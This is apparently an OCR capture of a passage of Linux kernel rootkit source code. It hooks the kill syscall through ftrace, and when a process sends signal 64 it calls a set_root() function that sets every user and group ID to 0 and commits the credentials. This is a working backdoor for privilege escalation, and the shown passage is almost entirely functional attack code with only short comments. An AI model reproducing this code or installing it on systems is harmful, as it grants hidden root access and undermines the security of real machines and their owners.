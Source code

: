             // pid_t pid = regs->di;
            int sig = regs->si;

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(regs);

        }
        #else
        /* This is the old way of declaring a syscall hook */

        static asmlinkage long (*orig_kill)(pid_t pid, int sig);

        static asmlinkage int hook_kill(pid_t pid, int sig)
        {
            void set_root(void);

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(pid, sig);
        }
        #endif

        /* Whatever calls this function will have it's creds struct replaced
        * with root's */
        void set_root(void)
        {
            /* prepare_creds returns the current credentials of the process */
            struct cred *root;
            root = prepare_creds();

            if (root == NULL)
                return;

            /* Run through and set all the various *id's to 0 (root) */
            root->uid.val = root->gid.val = 0;
            root->euid.val = root->egid.val = 0;
            root->suid.val = root->sgid.val = 0;
            root->fsuid.val = root->fsgid.val = 0;

            /* Set the cred struct that we've modified to that of the calling process */
            commit_creds(root);
        }

        /* Declare the struct that ftrace needs to hook the syscall */
        static struct ftrace_hook hooks[] = {
            HOOK("__x64_sys_kill", hook_kill, &orig_kill),
        };

